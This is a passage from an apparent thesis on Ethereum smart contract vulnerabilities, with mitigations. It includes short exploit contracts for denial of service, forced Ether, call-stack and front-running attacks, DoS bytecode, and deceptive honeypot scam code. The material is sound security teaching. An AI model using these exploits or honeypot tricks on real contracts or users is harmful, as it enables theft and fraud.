\begin{minted}{solidity}
function kill(address heir) public  {
    require(tx.origin == owner);
    selfdestruct(heir);
}
\end{minted}

If the \texttt{owner} of the vulnerable contract now calls \mintinline{solidity}{freeEther()} of the exploit, the contract will suicide and transfer its content to the attacker:
\begin{minted}{solidity}
function freeEther() public {
    victim.kill(address(this));
}
\end{minted}

This would not have happened, if \mintinline{solidity}{msg.sender} had been used, because it contained the address of the exploit. (see \cite[Security Considerations; tx.origin]{ethereum:solidity})

\subsubsection{Modifyable Contract Balances}
Another misconception that could irritate contract writers and people reading the source code is, that there a ways of transferring Ether to smart contracts the contract can't control -- and therefore a contract with no function accepting Ether can receive money and have a balance greater than \( 0 \). This is most likely to be exploited by fraudulent contract owners to scam their users in situations where a contract bases its actions on its balance, for example a token sale that sets the price of the tokens depending on the amount of funds raised.

In the following three ways on how to transfer Ether into a contract avoiding function calls are presented:

\paragraph{Contract Address as Coinbase}
When mining Ethereum blocks, the address where the mining reward is transferred to (called \textit{coinbase}) can be set to any arbitrary address, so the address of a contract can be set there. Once a block is successfully mined, the reward is just added to the balance without executing the fallback function. (as described in \cite[Security Considerations; Sending and Receiving Ether]{ethereum:solidity})

\paragraph{Selfdestruction}
\texttt{SELFDESTRUCT} is a Ethereum Virtual Machine instruction that deletes the contract code from the state of the blockchain. When a contract self-destructs, its remaining balance is sent to a given address. When this happens, the balance is again just added to the receiving address, which does not execute the fallback function of smart contracts (as described in \cite[Security Considerations; Sending and Receiving Ether]{ethereum:solidity}).

So the simplest way to force Ether into a smart contract without calling its fallback function is to deploy a simple exploit contract like the following one and then make it suicide sending the received Ether to the target contract:
\begin{minted}{solidity}
contract ForceEtherIntoContract {
    function attack(address target) payable public {
        selfdestruct(target);
    }
}
\end{minted}

\paragraph{Balance before Creation}
When deploying a smart contract to the Blockchain, the address where the contract will be created is known before the transaction is broadcasted. Because of this, the contract creator can sent Ether to the address where the contract will be created at before the contract is deployed and the constructor is executed. (see \cite{uscc:secondplace})

\subsubsection{Subcalls Stopping the Whole Transaction}
Another danger especially when calling contracts at unknown addresses is, that the called function could fail and therefore revert the whole transaction.

\paragraph{Reverts}
The first way to revert a whole transaction from a subcall only works in the case of correctly propagated errors. When an exception is thrown or \mintinline{solidity}{revert()} is called in the subcall, in this case the error is re-thrown and therefore the whole transaction fails.

To demonstrate this vulnerability, the \texttt{KingOfTheBachelorThesis}-contract in listing \ref{lst:interaction:kingofthebachelorthesis} can be used again with a slight modification: Instead of using \mintinline{solidity}{send}, which ignores exceptions, now \mintinline{solidity}{transfer} is used which propagates the errors correctly:
\begin{minted}{solidity}
current.refundAddress.transfer(address(this).balance);
\end{minted}

To retain the kingdom forever an exploit can be used that makes the sub-call launched in line \( 18 \) fail by not accepting Ether in the fallback function:\footnote{similar to \cite[section 4.2, second example]{atzei:attacksurvey}}
\begin{minted}{solidity}
contract KingForEver {
    function () public payable {
        revert();
    }
    
    function attack(KingOfTheBachelorThesis kotbt) public payable {
        kotbt.claim.value(address(this).balance)("Forever King!!!");
    }
}
\end{minted}

Because the transfer fails, the whole transaction is aborted and therefore the throne can't be claimed anymore.

A solution to this problem is using the \texttt{withdraw}-pattern. Instead of sending the Ether directly, the Ether owned by the user will be saved (for example in a \mintinline{solidity}{mapping(address=>uint)}). The amount stored in that mapping can then be withdrawn by another function, that sends the user the amount of Ether stored in the mapping. Using this pattern only the affected contract that refuses to accept Ether won't be able to withdraw its money:
\begin{minted}{solidity}
mapping(address => uint) public balances;

function withdraw () public {
    uint withdrawerBalance = balances[msg.sender];
    require(withdrawerBalance > 0);
    balances[msg.sender] = 0;
    msg.sender.transfer(withdrawerBalance);
}
\end{minted}

This is also the case, if instead of \mintinline{solidity}{transfer()} calls to functions of the contract are made, which was abused in the example of section \ref{section:honeypot:library}.

\paragraph{Out of Gas}
Another way the whole transaction could be prevented by a sub-call is using up all the gas: Since \mintinline{solidity}{transfer} and \mintinline{solidity}{send} limit the transferred gas to \( 2300 \), this can be only used with the call-command that transfers all the available gas:
\begin{minted}{solidity}
current.refundAddress.call.value(address(this).balance)();
\end{minted}

Instead of calling \mintinline{solidity}{revert()} in the fallback function, now all the remaining gas is burnt by an infinite loop doing gas-expensive memory-operations:
\begin{minted}{solidity}
uint valueInStorage = 0;
function () public payable {
    while(true) { valueInStorage++; }
}
\end{minted}

Because of this, the subcall will fail, so that the execution of the caller continues. But since the gas provided by the sender has been used up, the whole transaction will fail and be reverted.

\subsubsection{Maximal Callstack-Depth}
The call stack used by the Ethereum Virtual Machine is limited \( 1024 \) elements - if on level \(1024 \) another function is called, the call fails.

This property could be used until 18th of October 2016 by writing an exploit-contract that recursively builds up the stack to a height of \( 1023 \) and then calls a function of the target contract. When executing that function on stack height \( 1024 \), every call made fails, which becomes a problem if the exceptions are not handled properly. (see \cite[Page 11 (Stack Size Limit)]{atzei:attacksurvey})

In the case of \texttt{KingOfTheBachelorThesis} from listing \ref{lst:interaction:kingofthebachelorthesis} this error could be used to make the transfer of the compensation to the new king fail, which would -- as soon, as the throne is claimed again -- result in thief receiving the compensation for his predecessor.
\begin{minted}{solidity}
function attack() payable public { attackRecursion(1022); }

function attackRecursion(uint depthLeft) internal {
    if (depthLeft == 0) {
        victim.claim.value(address(this).balance)("Evil king!");
    } else {
        attackRecursion(depthLeft - 1);
    }
}
\end{minted}

This vulnerability was addressed in EIP 150 (see \cite{ethereum:eip150}): With every call increasing the height of the stack, only about \( \frac{63}{64} \) of the gas available for execution can be sent along. Because of this, getting to a call depth of \( 1023 \) to conduct this attack would only leave  about\( \left( \frac{63}{64} \right)^{1023} \approxeq 1 \cdot 10^{-7} \) of the gas sent with the initial call. Due to the block gas limit, only enough gas to reach a stack height of about \( 340 \) can be reached, so that this attack now has become practically impossible.

% \subsubsection{Wrong memory layout in library}
% Explain, how a different layout in the library context could become a problem

\subsection{Miners and secrecy}
Until now, we have not considered the miners, that have some choices when executing smart contracts and adding new segments to the block chain -- which can be used to modify the behavior of smart contracts:

\subsubsection{Transaction Order}
\label{section:vulnerability:transactionorder}
After a transaction has been created and submitted to a node participating in the Ethereum network, the transaction is being broadcasted to the peers of the corresponding node. On mining nodes, a transaction pool is maintained. Miners then can pick arbitrary transactions in an any order from the pool to be included in the next block before they start attempting the proof of work. By default, transactions with higher gas prices are preferred.\footnote{as explained in \cite{blockchannel:lifecycletransaction}}

Because of this, when submitting a transaction (after having checked that the contract is in a certain state), one can not be sure that the transaction will be mined at all or if the state of a contract the transaction is working with has been changed before execution. This becomes a problem, if the outcome of a transaction depends on state properties that can be modified by other transactions. A real application of this vulnerability will be presented in section \ref{section:honeypots:transactionordering}.

\subsubsection{Secrets on the Blockchain}
\label{sec:miners:secretsontheblockchain}
Since everything happening on the Ethereum Blockchain is executed decentralized and can be validated by anyone, every action is public. This applies to function calls and their parameters, balances and even contract internal storage.

Solidity allowing to declare some variables \mintinline{solidity}{private} does not help here, this feature only makes sure that the value can not be read by other contracts using the contract interface. The value can be read directly from the blockchain using tools like Mythril (see \cite{consensys:mythril}). Although this is a basic blockchain property, this has been neglected by smart contract creators.\footnote{see \cite{delmolino:rps} and\cite[Page 10 (Keeping secrets)]{atzei:attacksurvey}}

\paragraph{Rock, Paper, Scissors-Game}
\label{section:vulnerability:miners:rockpaperscissor}
This became a problem for the rock-paper-scissors smart-contract \texttt{RPS}, that was advertised for on reddit. When calling one of the functions \mintinline{solidity}{Rock()}, \mintinline{solidity}{Paper()} or \mintinline{solidity}{Scissors()} along with one Ether, the move was saved in the contract state. If already another player had made a move, the choices were compared and the stake from both players was send to the winner.\footnote{contract taken form \cite{reddit:rockpaperscissor} or \cite{etherscan:rockpaperscissor}}

It was easy to cheat the game, just by using a blockchain explorer like \url{etherscan.io}: If someone has already played, their move can be read from the transaction information, and therefore a winning move can be picked.

As a solution the \textit{commit-reveal-pattern} can be used: In a first step, only the hash of the move (concatenated to some random values) is sent to the contract. As soon as two players have committed their moves, both players reveal sending in their move and their random value. Afterwards, the hashes are checked; and if both players have revealed correctly, the winner is determined and paid. A smart contract implementing this idea can be found at appendix \ref{appendix:rpsincentivescorrected}.

\subsubsection{Relying on Block Variables}
Another potential vulnerability arises when using some variables that can be accessed in the Ethereum virtual machine. A wrong assumption that is often made is that block variables can not be manipulated -- and that all transactions have to be generated before those are generated. Because of this, there are dangers for some applications:

\paragraph{Random Number Generation}
Since the Ethereum Virtual Machine executes the code in a deterministic way, generating random numbers is a challenge. A popular, but bad approach is using block variables like \mintinline{solidity}{block.timestamp}, as it was done in the Roulette-Contract that was presented in \cite{swende:breakingthehouse}:
\begin{minted}{solidity}
uint private seed;
function generateRand() private returns (uint) { 
    seed = ((seed * 3 + 1) / 2) % 10**9;
    return (seed + block.number + block.difficulty + block.timestamp + block.gaslimit)
            % 37;
}
\end{minted}

This random number generation is not safe due to various reasons: Since \mintinline{solidity}{block.timestamp} can be set by the miner to an arbitrary value between the last mined block and the following block, a malicious miner could modify those values to influence the random number generation.\footnote{see \cite[Special variables and functions]{ethereum:solidity} and \cite[Section 4.3.4, equation 48]{ethereum:yellowpaper}}. And since the timestamp of the block is used directly to calculate the new \mintinline{solidity}{block.difficulty}, this value can be influenced as well.\footnote{as can be seen in  \cite[equation 41 and 44]{ethereum:yellowpaper}} \mintinline{solidity}{block.gaslimit} is even intended to be set by the miner within a certain range to vote for a new gas limit, which can also be abused to manipulate the random number generation. (see \cite[Section 4.3.4, equation 47]{ethereum:yellowpaper}).

The private variable \mintinline{solidity}{seed} doesn't help either, because it can be read from the blockchain as described in section \ref{sec:miners:secretsontheblockchain}.

Since all of those block variables can be accessed inside every contract, another contract can use those numbers to calculate the output of the random number generation on its own -- and then craft a call with a positive outcome, as observed by \cite[Contracts calling contracts]{swende:breakingthehouse}.

Using the hashes of past blocks is a bad choice, too, because they are known before starting to mine the next block. Accessing the hash of the current block with \mintinline{solidity}{block.blockhash(block.number)} is even worse, because the value is not known at the time of mining and therefore will always return \( 0 \). (see \cite{positive:predictingrandomnumbers})

A solution to this problems is using external sources to generate random numbers. One possibility would be to create a commit-reveal-scheme, with different users participating: In the commit step, every participant generates a random number and commits to this value by sending its hash to the smart contract. After a certain time, each participant reveals their number, which is then used to craft the final random number. To set the incentives right, every participant of the random number generation scheme has to deposit some Ether, that is increased with every correct contribution, and removed if a commit was not revealed correctly. An attempt to implement this idea is the RanDAO, that can be found at \cite{github:randao}.

\subsubsection{Abusing Underpriced Instructions}
This next attack is not a vulnerability of smart contracts, but of the whole Ethereum platform: To protect the nodes validating the blocks from requiring too much time to validate a block and memory to store the current state, each block has a limited amount of gas (the block gas limit) that can be spent during its execution.

The gas required for a transaction is the sum of the price of each instruction executed, which is specified in the Ethereum Protocol (can be found at \cite[Appendix G]{ethereum:yellowpaper}). The amount of gas required for each instruction code is intended to be proportional to the resources required for its execution. If the price is too low, this can be used to launch a \textit{denial of service} attack against the nodes by intentionally executing this command many times.

\paragraph{DoS-Attack against the Ethereum Network}
Multiple of similar attacks were launched against the Ethereum Network in September and October 2016\footnote{see the list at \cite{bokconsulting:dos}}, the most effective of them bloating the blockchain state by creating millions of empty accounts will be described as an example in the following:

The \texttt{SUICIDE}-operation is intended to be called by contracts that are no longer needed - and can therefore be removed from the blockchain state. The parameter for this operation is an address where the Ether in the balance of the contract is sent to. After the execution of the whole transaction, the contract code is deleted and the account is closed.

If a message or a transaction is sent to an address that was never used before on the blockchain, a new account has to be created. When doing this using other opcodes like the regular \texttt{CALL}, there is a large fee for this operation to limit the execution of this operation; this penalty exists to keep the amount of accounts and therefore the state small, because the larger the blockchain state becomes and therefore more memory is required by the nodes. Since this fee did not exist for \texttt{SUICIDE}, huge amounts of accounts could be created.

The basic attack was pretty simple: A launcher contract\footnote{its first iteration is located at \cite{etherscan:ddoslauncher}, which was disassembled for this analysis using \cite{consensys:mythril}. The bytecode for the suicide-contract is pushed to the stack in the first command of the launcher. A more detailed explanation can be found at \cite{stackexchange:dosexplained}} is called many times, that in every call first creates another contract that just suicides to the address given in its call data. To achieve this, only this simple bytecode was required:
\begin{verbatim}
PUSH1 0x00
CALLDATALOAD
SUICIDE
\end{verbatim}

Then, the launcher calls the suicide-contracts multiple times providing an address which is incremented which each call; and checks the gas price occasionally to not run out of gas during the transaction. Using this, the attacker managed to create over 19 million accounts over multiple instructions, which is a considerable amount compared to the around 700 thousand regular accounts at the time.\footnote{estimated by \cite{bokconsulting:dos}}

To stop the attacks, the gas prices for the instructions were adjusted in the fork proposed in EIP 150 (\cite{ethereum:eip150}) and an account creation fee was added for suicides; and in EIP 158 (\cite{ethereum:eip158}) the deletion of empty accounts when they were called was added. This enabled later cleanups by simply sending an empty transaction to the accounts created during the attack (see \cite{etherscan:sweeper}). Up until today, when downloading the full Ethereum blockchain, the synchronization is slowed down because of this attack (see \cite{ethereum:slowsyncing}).
\subsection{Honeypots \& Blockchain Explorers}
To get the trust of users interacting with the smart contract, owners of smart contracts can publish the source code on blockchain-explorers like \href{https://etherscan.io}{etherscan.io}. To verify that the provided source code matches the bytecode on the blockchain, Etherscan compares the result of their compilation of the source code to the bytecode deployed on the blockchain.

\subsubsection{Underhanded Source Code}
\label{section:honeypot:underhanded}
Some contracts, so-called \textit{honeypots}, try to abuse the confidence produced by this feature publishing misleading source code that tricks the user into sending Ether to the contract. Most of the time this is done by "promising" more Ether in return. Since some of the traps are based on design decisions of Solidity or use common misconceptions about smart contracts, they can be seen as a vulnerability of the smart contract ecosystem.

Finding honeypot-contracts on the blockchain is simple: Since the owners want their contract and the underhanded code to be found, they are listed within the \textit{Verified Contracts}-list of the blockchain-explorers. Usually they fulfil three properties: Commonly there is about one Ether inside the contract to incentivize potential victims to have a look at the contract. Then, there is an obvious way to retrieve the balance; sometimes a well-known vulnerability that could be used to "steal" the funds, in other cases the bait is presented as a gift. The third part is the trap, that somehow stops the Ether from being sent to the victim (although the code suggests that), and a way for the owner to retrieve the funds again. (see \cite{wagner:honeypots})

\paragraph{\texttt{X2_FLASH}-Honeypot}
A real honeypot-contract called \texttt{X2_FLASH}\footnote{found at \cite{etherscan:uncalledcallhoneypot}} (with the balance of 1 Ether) whose code was published on Etherscan.io contained a function whose code suggested it would return all the Ether stored in the contract when it was sent more than a specific amount:
\begin{minted}{solidity}
function X2() public payable {
    if(msg.value > 1 ether) {
        msg.sender.call.value(this.balance);
    }
}
\end{minted}

Contrary to the first impression, \mintinline{solidity}{msg.sender.call.value(this.balance)} does not send Ether. Calling \mintinline{solidity}{msg.sender.call.value(this.balance)} only returns another version of the call function that will send all the Ether owned by the contract along with the call. To execute that function, additional parenthesis after the call would have been required:
\begin{minted}{solidity}
msg.sender.call.value(this.balance)()
\end{minted}

This is not the only way to program Solidity in an underhanded way: In the following I will present some other approaches that have been or could be used to trick users reading the source code:

\paragraph{Shadowed Variables}
When a contract inherits state variables from a parent-contract, the state variables of the parent contract will be added to the child-contract. If the child contract contains a state variable with the same name as the parent, the variable from the parent contract will be shadowed.

This was abused in the \texttt{StakeholderBattle}-honeypot presented in the following listing. At first, it seems like the contract can be bought with one Ether -- and then the complete balance can be withdrawn.

\begin{minted}{solidity}
contract Ownable {
    address public owner = msg.sender;
    modifier onlyOwner() { require(msg.sender == owner); _; }
}

contract PurchaseableContract is Ownable {
    address public owner;

    function purchase() public payable {
        owner = msg.sender;
        largestStake = msg.value;
    }

    function withdraw() public onlyOwner {
        msg.sender.transfer(this.balance);
    }
}
\end{minted}

Since in \mintinline{solidity}{purchase()} the \texttt{owner} variable from \texttt{PurchaseableContract} is modified, but the modifier \texttt{onlyOwner} uses the owner defined in \texttt{Ownable}, the contract creator remains the "real" owner and therefore will be able to withdraw the funds from the contract.\footnote{the honeypot was found by \cite{wagner:honeypots}, the original code can be found at \cite{etherscan:stakeholderbattle} which was slightly modified for this example}

\paragraph{Storage-Null-Pointers}
As already explained in section \ref{section:deepdive:memory}, from a programmer's perspective the storage can be seen as an array of \texttt{uint256} with enough fields to be addressed by a \texttt{uint256}.

The first variable declared in storage is saved in field \( 0 \), the second in \( 1 \) et cetera. When using dynamic arrays, the length is stored in the corresponding field of the variable, and position of the specific array element is calculated as the hash value of the position of the length counter in storage and the array index. If a stored value like a \mintinline{solidity}{struct} requires more than one field to be stored, the subsequent fields will be used.

When declared, a pointer to a \mintinline{solidity}{struct} has by default the value \( 0 \). So when accessing an uninitialized \mintinline{solidity}{struct}, the memory for the regular contract variables will be used.\footnote{this vulnerability was presented by \cite{cryptronics:nullstruct}}.

In the sample-honeypot \texttt{BuyableOwnership} presented in listing \ref{lst:blockchainexplorers:ownerhistory} is based on this trick: The contract promises, that once bought using the \mintinline{solidity}{claim()}-function for one Ether, the user can withdraw all the funds (including those that were left by the last owner). When the contract is created, the address of the creator is set to be the first owner.

\begin{listing}[H]
	\begin{minted}{solidity}
contract PurchaseableContract {
    struct OwnerHistoryEntry {
        address ethereumAddress;
        uint ownershipEnd;
    }
    
    address public owner = msg.sender;
    uint ownershipStart;
    OwnerHistoryEntry[] ownerHistory;
    
    function purchase() public payable {
        require(msg.value >= 1 ether);
		
        // Set new owner
        address oldOwner = owner;
        owner = msg.sender;

        // Save old owner in owner history        
        OwnerHistoryEntry storage entry;
        entry.ethereumAddress = oldOwner;
        entry.ownershipEnd = block.timestamp - ownershipStart;
        ownerHistory.push(entry);
    
        ownershipStart = block.timestamp;
    }
    
    function withdraw() public {
        require(msg.sender == owner);
        owner.transfer(address(this).balance);
    }
}
\end{minted}
	\caption{The \texttt{StakeholderBattle}-smart contract uses null-struct-pointers to modify other regions of the memory.}
	\label{lst:blockchainexplorers:ownerhistory}
\end{listing}

Whenever another user tries to claim ownership by sending one Ether, the sender is first set as the owner, and then the former owner is added to the \mintinline{solidity}{ownerHistory}. Because \mintinline{solidity}{entry} is an uninitialized storage pointer, the address of the old owner is stored in the first slot of the memory, which is the same slot the new owner was written to.

Because of this, the creator of the contract remains the owner and can simply withdraw all the funds received.

\paragraph{Value and Balance}
When sending Ether to a contract, the value sent along is added to the contract balance before the code is executed. Since this is not obvious to some users, this can be used in a honeypot:\footnote{and indeed was used \cite{etherscan:multiplicatorx3}, which was also discovered by \cite{wagner:honeypots}}

By having \mintinline{solidity}{require(msg.value > address(this.balance));} inside a function, the user might think that they have to send more Ether than contained in the contract to pass this check. But since \mintinline{solidity}{address(this.balance)} is always at least as large as \mintinline{solidity}{msg.value}, this check will evaluate to \mintinline{solidity}{true}.

\paragraph{Abusing Compiler Bugs}
Since smart contracts can be compiled and verified using an arbitrary compiler version, it is possible to abuse compiler bugs of old versions in order to trick unsuspecting users:

Until version 0.4.12 of the Solidity compiler there was a bug in the argument encoder for external function calls, that made it skip empty strings. (see \cite[SkipEmptyStringLiteral]{solidity:buglist}) Because of this, all the other arguments would just be shifted to the left:

In the following \texttt{GiveAway}-contract this compiler bug is used: When launching the external call (using the \mintinline{solidity}{this}-keyword) to the own function \mintinline{solidity}{releaseEther()} inside the function \mintinline{solidity}{claim()}, the arguments get shifted so that \mintinline{solidity}{giver} is at the location of \mintinline{solidity}{winner} -- which will send all the Ether of the contract to the creator of the honeypot.\footnote{vulnerability discovered by \cite{reddit:honeypots}}

\begin{minted}{solidity}
contract GiveAway {
    address owner = msg.sender;
    event Given(bytes32 message, address target, address giver);
    
    function GiveAway() public payable {}

    function claim() public payable {
        if(msg.value < 1 ether) throw;
        this.releaseEther("", msg.sender, owner);
    }
    
    function releaseEther(bytes32 message, address winner, address giver) {
        require(msg.sender == address(this));
        require(winner.send(address(this).balance));
        Given(bytes32(message), winner, giver);
    }
}
\end{minted}

\paragraph{Similar Variable Names}
\label{section:honeypots:similar}
Another rather simple trick that was found on the Etherscan was using similar-named variables to hide malicious behavior:\footnote{Since solidity only allows alphanumeric characters or \texttt{\$} and \texttt{_} as identifiers the possibility to use homoglyphs is limited. see \cite[\texttt{docs/grammar.txt}]{ethereum:solidity}}

The creator of the smart contract \texttt{FirePonzi} used this trick to steal from their users: Two similar-looking state variables were declared and initialized at different locations of the smart contract:\footnote{smart contract located at \cite{etherscan:fireponzi}, vulnerability found by \cite{wagner:honeypots}}
\begin{minted}{solidity}
uint public payoutCursor_Id_ = 0;
// ...
uint public payoutCursor_Id = 0;
\end{minted}

By participating in the scheme themselves, the owner became \mintinline{solidity}{persons[0]}. The idea was to increase the pointer after each payout to a former participant in the Ponzi scheme; but since a different variable was incremented than used, every payout would have been sent to the initial owner.
\begin{minted}{solidity}
persons[payoutCursor_Id].etherAddress.send(MultipliedPayout);
payoutCursor_Id_++;
\end{minted}

\paragraph{Silently Failing Functions}
\label{section:honeypots:silentlyfailing}
Another trick that is often used in combination with others is to not make the transaction fail if a requirement is not fulfilled. Because of this, Ether sent along with the transaction will be kept in the contract balance and not be refunded if a property is not met.

So if a user calls a function with modifier \texttt{ownerOnly} without being the owner, in
\begin{minted}{solidity}
modifier ownerOnly() { if (owner == msg.sender) _; }
\end{minted}
the Ether sent along will be kept and the transaction will be displayed as successful, whereas
\begin{minted}{solidity}
modifier ownerOnly() { require(owner == msg.sender); _; }
\end{minted}
would make the transaction fail and therefore refund the sent Ether.

\paragraph{Hidden Code}
In an earlier version of Etherscan, lines that were too long for the contract code field would just overflow and therefore not be visible on the platform. This could be used to hide malicious commands from users inspecting the code:

This trick was used by the \texttt{WhaleGivaway1}-smart contract (that can be found at \cite{etherscan:whalegiveaway} and was discovered by \cite{wagner:honeypots}), that first in the giveaway function secretly transferred all the Ether contained in the contract to the owner:
\begin{minted}{solidity}
function GetFreebie() public payable {
    if(msg.value >1 ether) { /* 3460 spaces */ Owner.transfer(this.balance);
        msg.sender.transfer(this.balance);
    }
}
\end{minted}

As a counteraction Etherscan now breaks the lines instead of making them overflow - so that this technique can not be used any more.

\subsubsection{Wrong Library Source Code}
When uploading and validating smart contract source code on Etherscan, library code can be uploaded along with the original code. This is often done in order to provide the contract interface and information about the functionality of the library. A common misconception is that the library specified in the contract source has to be used, which is not true: Etherscan by default does not check the linked libraries, so that a completely different library can be used.

In most real cases, this is used in combination with the behavior of Etherscan.io presented in the next section:

\subsubsection{Zero-Value Internal Transactions}
An \textit{internal transaction} happens, if a smart contract calls another smart contract. On \url{etherscan.io}, those transactions are only displayed if Ether was transferred with the call -- internal transactions with a value of \( 0 \) are not shown.

This can be used to hide transactions that change the state. To be safe it is always worth it to check alternative block chain viewers that display those transactions, like for example \url{etherchain.org}.

\paragraph{\texttt{COIN_BOX}-Honeypot}
\label{section:honeypot:library}
The smart contract \texttt{COIN_BOX}\footnote{on the blockchain at \cite{etherscan:coinbox}} uses those two features.\footnote{as noticed later, another analysis of this contract was given in \cite{alexsherbuck:dissectinghoneypot}}

The contract uses an external \texttt{LogFile}-contract to save information about the transaction. The address of that external contract can be set during an initialization phase (that is active if \mintinline{solidity}{bool initialized} is true), which starts as soon as the contract is created and ends with a call to
\begin{minted}{solidity}
function Initialized() public {
    intitalized = true;
}
\end{minted}

After deploying the contract, first \mintinline{solidity}{SetLogFile} is called from the Ethereum account that has deployed the contract setting the address to a verified instance of the \texttt{LogFile}-library.
\begin{minted}{solidity}
function SetLogFile(address _log) public {
    if(intitalized) throw;
    Log = LogFile(_log);
}
\end{minted}

Afterwards, an internal call to the second function is launched, changing the \texttt{LogFile} reference to another library. Since the transaction did not transfer any Ether and was launched by another smart contract, it is not displayed on \url{etherscan.io}. Then \mintinline{solidity}{Initialized()} is called by the user account, which is visible on Etherscan again.

The incentive to send Ether to the contract is especially clever: In \mintinline{solidity}{function Collect(uint _am)} there is an Ether-transfer using \mintinline{solidity}{call} that can be exploited using a re-entrancy-exploit. But to execute it, at least \texttt{MinSum} Ether has to be stored in the \texttt{COIN_BOX}, and therefore have been sent to \mintinline{solidity}{function Put(uint _lockTime)} before.
\begin{minted}{solidity}
if(acc.balance>=MinSum && acc.balance>=_am && now>acc.unlockTime) {
    if(msg.sender.call.value(_am)()) {
        acc.balance-=_am;
        Log.AddMessage(msg.sender, _am, "Collect");
    }
}
\end{minted}

Although the source code for the exchanged library is not available and nobody has been tricked by the attack yet, a way how the trap and the retrieval could have worked will now be presented: When calling \mintinline{solidity}{Log.AddMessage()}, if the sent address is the owner or the log message is \mintinline{solidity}{"Put"} (as sent to the contract when logging using \mintinline{solidity}{Put()}, which the honeypot creator wants to succeed), the secretly pushed log contract will just return, in all other cases the whole transaction will be stopped by a \mintinline{solidity}{revert()}-command. This allows the owner to retrieve all the funds, including the ones by the trapped user, by executing the re-entrancy-attack themselves.

\subsubsection{Transaction Race}
\label{section:honeypots:transactionordering}
The Transaction Ordering Dependency-vulnerability presented in section \ref{section:vulnerability:transactionorder} can be abused in honeypots:

The contract \texttt{EvilGiftCard} shown in listing \ref{lst:honeypot:transactionrace} has the vulnerability that, even if \mintinline{solidity}{put()} had already been called successfully, the password can be changed by calling the function again, sending along 1 Ether:
\begin{listing}[H]
	\begin{minted}[
        linenos=true,
        firstnumber=1
    ]{solidity}
contract EvilGiftCard {
    bytes32 hash;
    
    function put(bytes32 _hash) public payable {
        require(msg.value >= 1 ether);
        hash = _hash;
    }
    
    function take(bytes password) public {
        require(keccak256(password) == hash && msg.sender == tx.origin);
        msg.sender.transfer(address(this).balance);
    }
}
    \end{minted}
	\caption{A simplified transaction-race honeypot}
	\label{lst:honeypot:transactionrace}
\end{listing}

After an attacker and later victim of the honeypot has changed the password and enters the \mintinline{solidity}{take()}-transaction, the owner can detect this their transaction in the transaction pool before it has been mined, and can launch an own transaction trying to take the Ether with the same password extracted from the transaction data. Using a significantly higher gas price, the miners will prefer the new transaction, and with a relatively high chance the \mintinline{solidity}{take()}-transaction will be applied before the original one by the attacker.

An important detail of this example is the usage of \mintinline{solidity}{tx.origin == msg.sender} in line 10 of the smart contract. If this check would have been omitted, the honeypot could have been emptied without any chance for the honeypot-owner to start the transaction race, because an attacker could have stolen the bait without triggering the honeypot by deploying the following contract:
\begin{minted}{solidity}
contract EvilGiftCardEmptier {
    bytes password = "anything";
    constructor(EvilGiftCard giftCard) payable public {
        giftCard.put.value(msg.value)(keccak256(password));
        giftCard.take(password);
        require(address(this).balance > msg.value);
        selfdestruct(msg.sender);
    }
}
\end{minted}

During its deployment the contract resets the password and empties the bait within one transaction - so that it's impossible to get an transaction in between those calls; and if the attack would not have been successful, the attacker would have only lost the gas required to launch the attack because of the \mintinline{solidity}{require()}. Requiring \mintinline{solidity}{tx.origin} to be equal to \mintinline{solidity}{msg.sender} ensures, that the \mintinline{solidity}{take()} is called directly.

A similar honeypot can be found on the Ethereum blockchain; it will be quickly presented and explained in appendix \ref{appendix:racehoneypot}.

\subsection{Other Vulnerabilities relating Smart Contracts}
In the following some vulnerabilities of smart contracts on the Ethereum Platform and platforms interacting with them will presented, that did not fit in any of the categories mentioned before:

\subsubsection{Orphan Addresses}
There is no way to know, if a key that corresponds to a given address has been generated; so that addresses can not be validated. Addresses that do not correspond to a smart contract or a key are called \textit{orphan}, and Ether sent to this address is lost.\footnote{as mentioned at \cite[Page 11 (Ether lost in transfer)]{atzei:attacksurvey}}

The best-known orphan-address is \mintinline{solidity}{0x0} (that can be found at \cite{etherscan:addresszero}), where almost daily Ether is sent to by accident. Over time Ether worth over a million US-\$ has been sent to this address.

\subsubsection{Incentive Misalignment}
\label{section:other:incentive}
Another important objective content creators have to keep in mind is to set the incentives of the users right: It should never be an advantage to cheat or to leave out a transaction that would keep the contract going (as noted in \cite{delmolino:rps}).

An example where this could be problematic are commit-reveal-schemes, like proposed as a solution for the Rock-Paper-Scissors contracts presented in section \ref{section:vulnerability:miners:rockpaperscissor}. After the first player has revealed, the second player can see that move in the published transaction on the blockchain. If their own chosen hand would lose against the revealed move, there is no motivation to spend the gas to reveal and therefore to end the game. This would render the contract blocked and the winner unpaid.

A typical way to fix this problem is to demand a stake from the users: The improved version is presented in appendix \ref{appendix:rpsincentivescorrected}; when entering the game by committing in this implementation, an additional deposit has to be sent along. If the user reveals correctly, the deposit is refunded; if not, the deposit is kept as a fee for the owner after a timeout -- making it worth for the user to reveal a loosing hand.

\subsubsection{Address-length Attacks on Exchange-Websites}
The next vulnerability presented is not directly a vulnerability of smart contracts, but of platforms interacting with contracts: \texttt{poloniex.com} is an exchange platform where cryptocurrencies and tokens can be traded. To buy Tokens, a user can pay the platform and enter the Ethereum address the tokens are supposed to be sent to.

To transfer the tokens to the requested address, a transaction is created whose arguments are generated by concatenating the function selector of \mintinline{solidity}{transfer(address,uint)}, the padding bytes of the address, the address entered by the user, and the transferred value to call the function \mintinline{solidity}{transfer(address _to, uint256 _value)}.

This bug of the exchange-platforms was found by \cite{golemproject:addresslength}, who noticed that a way too short address had been entered: \texttt{0x79735} misses \( 140 \) bits to be complete address, which has a length of \( 20 \)-bytes. Because the following \( 32 \) bytes were just concatenated, the first  \( 140 \) bits of the following \mintinline{solidity}{uint}-value were consumed as the missing part of the address. This resulted in a following \mintinline{solidity}{msg.data}-string:
\begin{verbatim}
0xa9059cbb0
0000000000000000000000007973500000000000000000000000000000000000
00000000005150ac4c39a6f3f0000
\end{verbatim}

When accessing bits inside the EVM that were not provided by the \mintinline{solidity}{msg.data}, just \texttt{0}s are returned, so that the missing bytes are not noticed. This results in the contract receiving the amount to be transferred shifted by \( 140 \) bits to the left.

This could be abused by generating a address that ends on \texttt{00}s, which can be done using a simple script inside the geth-client console like
\begin{minted}{javascript}
var account; do { account = personal.newAccount(''); } while (!/00$/.test(account));
\end{minted}

Entering such an address without the \texttt{00} at the end in a vulnerable exchange would result a transferred amount to be left-shifted by \( 8 \) bit (which corresponds to a multiplication by \( 256 \)).


\pagebreak{}

\section{Tools for Development and Analysis}
